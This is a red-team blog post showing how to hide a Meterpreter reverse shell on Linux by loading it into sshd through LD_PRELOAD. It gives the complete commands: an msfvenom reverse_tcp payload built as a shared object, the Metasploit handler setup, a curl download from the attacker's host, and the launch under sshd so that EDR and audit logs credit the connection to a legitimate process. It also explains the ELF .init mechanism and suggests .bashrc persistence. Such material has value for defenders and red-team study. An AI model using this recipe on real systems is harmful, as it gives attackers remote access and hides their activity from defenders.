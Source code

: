 ```yaml
---
layout: post
title: "Linux EDR Evasion With Meterpreter and LD_PRELOAD"
date: 2020-02-06
categories: red-team linux security
tags: ld_preload linux edr evasion meterpreter
permalink: /linux-edr-evasion-meterpreter-ld-preload/
---
```


Everyone has their favorite adversary technique to research and mine is LD_PRELOAD process injection because it's pretty versatile. It lets you hook functions to manipulate output, and it can also let you trip up defenders by injecting code into arbitrary processes for execution. In this post, I'll walk through how an adversary might combine Meterpreter with LD_PRELOAD to hide malicious activity under a legitimate Linux system process.

## The Setup

To get started, I'm working with a Kali Linux machine as my attacker system and a CentOS 8 system as my victim. You don't have to limit yourself to this setup, but it's what works for me at the moment.

On the victim system, the only access needed is code execution and the ability to transfer a payload.

On my attacker machine, I need to generate a Meterpeter payload within a shared object library format. To do this, we can use `msfvenom`.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.57 LPORT=2022 -f elf-so > meterpreter.so
```

Next, we need a way to transfer `meterpreter.so` to the victim system. This may be done via a `curl` command or another method of downloading/uploading files.

In my case, I used NGINX to host the SO library from my Kali machine for download:

```
# cp meterpreter.so /var/www/html/
# systemctl start nginx
```

Finally, we need to set up a handler to receive the connection and use it in Metasploit. To do this, we can work with `msfconsole`.

```
# msfconsole

# msf5 > use exploit/multi/handler
# msf5 > set payload linux/x64/meterpreter/reverse_tcp
# msf5 > set LHOST 10.10.10.57
# msf5 > set LPORT 2022
# msf5 > run

[*] Started reverse TCP handler on 10.10.10.57:2022
```

And now we move to our victim system for execution!

## The Execution

On my victim system, I downloaded the SO library using a simple `curl` command:

```
$ curl -O http://10.10.10.57/meterpreter.so
```

From here I can pick any process I want to attribute execution to, as long as it isn't statically compiled. In this case, I'm choosing `sshd` since it often makes network connections and because some network admins use `tcp/2022` to obscure their SSH service availability.

```
$ LD_PRELOAD=./meterpreter.so sshd
```

Once executed, control is never actually passed to `sshd`, and the process execution is controlled by `meterpreter.so` as it reports back for commands. It appears that the process is frozen, but it really isn't.

On the Kali machine I see:

```
[*] Sending stage (3021284 bytes) to 10.10.10.51
[*] Meterpreter session 1 opened (10.10.10.57:2022 -> 10.10.10.51:39314) at 2020-02-06 20:05:00 -0600
```

From Kali I can join the Meterpreter session and get access at the permission level of the victim's user account:

```
meterpreter > sysinfo
Computer        : cent8-01.westeros.local
OS              : CentOS 8.0.1905 (Linux 4.18.0-80.el8.x86_64)
Architecture    : x64
BuildTuple      : x86_64-linux-musl
Meterpreter     : x64/linux
```

If we go to investigate with an EDR product, Auditd/Auditbeats logs, or osquery, the network connection and any actions will be attributed to `sshd`. This requires a defender to be much sharper on their game to spot malicious activity and understand the behavior of system processes. Depending on the actions we want to perform and the ports available for C2, we could potentially do the same with `httpd`, `smtpd`, `vsftpd`, etc.

## How Does It Work?

Most of the time we can safely assume that SO libraries work in a similar fashion to DLLs on Windows. That is, the library must have an exported symbol that should be called for code to execute. We can inspect SO libraries for exported symbols using the `nm` command. Howver, when we inspect our generated `meterpreter.so` library we can notice something odd:

```
# nm -D meterpreter.so
nm: meterpreter.so: no symbols
```

Oddly enough, it doesn't look like our `meterpreter.so` has any symbols to call, so how did `sshd` know to execute the code within the SO library? This is because of a feature of the ELF binary format.

SO libraries follow the ELF binary format and include a section called `.init`. Any code placed within this section will execute when the library is loaded by a process and before control is passed to the process itself. The section is usually used by compilers for global constructors, but we can put nearly anything there for exploitation. When `msfvenom` creates its `elf-so` payloads, it embeds payloads within a template designed to house the payload within the `.init` section for execution. That way, no process should need knowledge of symbols within the library for execution.

This is also the way payloads generated/used by the [Zombie Ant Farm](https://github.com/dsnezhkov/zombieant) project work.

The use of a `.init` section also has an interesting limitation when combined with preloading- it can only be used effectively when you define `LD_PRELOAD` for a single process. When executing Meterpreter in this fashion, the victim process will appear hung. This is because the Meterpreter code continuously executes before control is passed to the victim process's main function. The rest of the process instructions will not execute until Meterpreter exits. This means that if you export `LD_PRELOAD` to leverage this SO library or write the library path into `ld.so.preload`, it will cause serious instability. If you use a preload method that causes `meterpreter.so` to load into numerous or all processes, it will cause loads of processes, even ones needed for system operation, to hang immediately after loading the SO library. So, no bueno.

## Is It Useful?

Eh, it depends. We obviously already need code execution and a method of downloading code to a victim for this to be possible. I could see this being useful when combined with an RCE against publicly-available services to get a stable shell. That said, a simpler and safer route in terms of stability could also be the execution of a Python C2 agent. In the case of a Python agent, it would be slightly harder to cause the attribution of activity to a system process. This is not going to be an initial access method, it would be more useful for long-term evasion and persistence when combined with a `.bash_profile` or `.bashrc` command execution.